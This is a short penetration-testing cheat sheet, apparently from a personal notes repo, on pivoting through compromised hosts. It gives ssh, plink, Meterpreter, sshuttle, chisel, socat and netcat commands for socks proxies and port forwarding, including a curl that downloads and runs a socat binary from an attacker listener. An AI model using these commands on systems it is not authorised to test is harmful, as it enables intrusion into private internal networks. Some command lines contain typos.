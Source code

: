 # Pivoting

## Tools


* ssh (-D -L -R)
* meterpreter
* plink.exe
* [chisel](https://github.com/jpillora/chisel)
* [reGeorg](https://github.com/sensepost/reGeorg) (web socks proxy)

### Proxychains

We can choose one of the tools to create a socks proxy and configure Proxychains to route into it the traffic of any pentesting tool that has no buit-in options to specify a socks proxy :

```bash
sudo vim /etc/proxychains.conf => changer le port du proxysocks proxychains
proxychains wpscan --url <url> 
wpscan --url <url> --proxy socks5://127.0.0.1:9517 --force
```
> We can also forward a single port to avoid being forced to use a socks proxy.

### Plink

```sh
plink.exe -l root -pw password -R 445:127.0.0.1:445 <listener_ip> [-P <listener_port>] 
```

### Meterpreter

```sh
#Socks Proxy
run autoroute -s <target_network>/24
use auxiliary/server/socks4a
exploit -j

# Port forward
portfwd add -l 3389 -p 3389 -r <target>
```

---

### SSHUTTLE
```sh
sshuttle -r kali@<target_ip>:22 <target_network>/24
```


### Chisel
```sh
git clone git clone https://github.com/jpilloria/chisel && cd chisel && go build && go build -ldflags="-s -w" && upx build chisel && chmod +x chisel
./chisel client <listener_ip>:10000 R:4506:127.0.0.1:4506
chisel server -p 10000 --reverse
```


### SOCAT
```sh
curl -sL http://<listener_ip>:1234/socat -o /tmp/socat && chmod +x /tmp/socat && cd /tmp

# remote forward : redirect all trafic coming from TCP 4506 to remote host
socat TCP-LISTEN:4506,reuseaddr,reuseport,fork,bind=<listener_ip> TCP:<remote_ip>:4506

# localhost forward : redirect all trafic coming from TCP 80 to TCP 5000
socat TCP-LISTEN:80,fork TCP:127.0.0.1:5000

```
### Netcat

```sh
nc -v -lk -p 8001 -e /usr/bin/nc 127.0.0.1 8000
nc.traditional -l -p 8001 -c "nc 127.0.0.1 8000"
```

---

## Nmap like

[PortqryUI](https://www.microsoft.com/en-us/download/details.aspx?id=24009) : Nmap like for windows
